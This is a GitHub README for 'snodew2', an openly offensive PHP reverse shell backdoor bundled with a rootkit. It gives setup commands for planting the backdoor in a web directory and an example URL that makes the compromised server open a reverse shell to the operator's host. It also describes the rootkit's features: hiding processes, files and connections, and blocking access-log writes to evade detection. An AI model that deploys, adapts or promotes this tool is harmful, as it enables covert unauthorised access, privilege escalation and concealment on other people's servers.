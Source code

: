 
# snodew2
 * PHP reverse shell backdoor which uses a small suid binary to escalate privileges on connection.
 * new iteration of [snodew](https://github.com/mempodippy/snodew) but better.
 * snodew was previously designed to work alongside [vlany](https://github.com/mempodippy/vlany).
   * this is no longer the case as this version comes with its own specialised rootkit.
   * if you don't wish to have rootkit capabilities with snodew2, you can disable installation of the rootkit, so all that is setup is the backdoor itself.
   * but i would have to discourage doing that.

## usage
```
git clone https://github.com/naworkcaj/snodew2.git
cd snodew/
./setup.sh [install dir] [password]
```

### example usage
 * change SECRET_PORT to your own port of preference in `setup.sh` if you wish. if you don't, a random port number will be fetched
 * & you may need to change WWWNAME in `setup.sh` to match the target service user

```
./setup.sh /var/www/html/blog sexlovegod
(or without rootkit capabilities)
NO_ROOTKIT=1 ./setup.sh /var/www/html/blog sexlovegod
```
 * `setup.sh` will show you the name of snodew.php in the location you specified as the installation directory.
 * visit that in your browser. making sure you set your correct password.
   * for example, `http://lol.ok/blog/gjunmf.php?password=sexlovegod`
 * have something listening for a connection on the 'secret port' on the box of your choice.
   * `http://lol.ok/blog/gjunmf.php?password=sexlovegod&host=urbox`
   * congrats u have a shell

<b>result of successful installation:</b>
<img src="https://i.imgur.com/ujGtRGz.png">

<b>brief usage example upon visiting newly created php script:</b>
<img src="https://i.imgur.com/sDLprex.png">

<b>example reverse shell connection after giving script a target host:</b>
<img src="https://i.imgur.com/BSXy3Hg.png">

<b>using `./killself` in the backdoor shell:</b>
<img src="https://i.imgur.com/tkIrWRy.png">

## general notes
 * setup & installation of snodew is free of any dependencies.
   * excluding gcc and an available web service. and a brain i guess.
 * no encryption support??

## snodew.php & backdoor notes
 * is only a reverse shell. use a reverse shell handler.
 * trying to access snodew.php through a browser without having 'password' set & correct will display a 404 page.
   * NOT THE SERVER'S 404 PAGE. JUST A 404 PAGE.
 * suid executables can potentially be disabled on the box. most likely & usually not.
 * theoretically, snodew.php could be any kind of PHP file. you'd just have to rearrange some stuff.

## rootkit notes
 * all processes spawned for & by the rootkit are hidden.
   * in the original snodew, i had made a note of the fact that the initial spawning of the suid binary was visible in process listings.
     * this is no longer the case.
   * the original version also used extended attributes to hide regular files, i.e, not processes.
     * this too, is no longer the case. we only using a magic GID.

 * when the rootkit is installed, regular users can't see the PHP file, or the suid binary.
   * snodew determines when the service user can see the PHP file & the suid bin...
   * fundamental factors in deciding what makes the service user worthy of being able to see & access the two files are the following:
     * *you may need to change `WWWNAME` in setup.sh*
     * their UID & GID
     * their home directory
     * their environment variables
     * and their process name
 * during installation of the rootkit, you'll be given a magic variable.
   * you'll only need to use this in very special situations, most likely never. you'll know if or when you need to use it.

 * the rootkit's write() hook breaks write when buf contains the php filename.
   * this is in an effort to prevent access logs @ the php file.

## the rootkit does:
 * hide: backdoor connection information from netstat, ss, and all variants.
   * __only for connections on the secret port.__
 * hide: rootkit location from process maps files.
 * hide: obviously, files & processes spawned for or by the rootkit & snodew's backdoor.
 * evades discovery from various tools.
 * running `./killself` in a backdoor shell will remove the backdoor & rootkit from the box.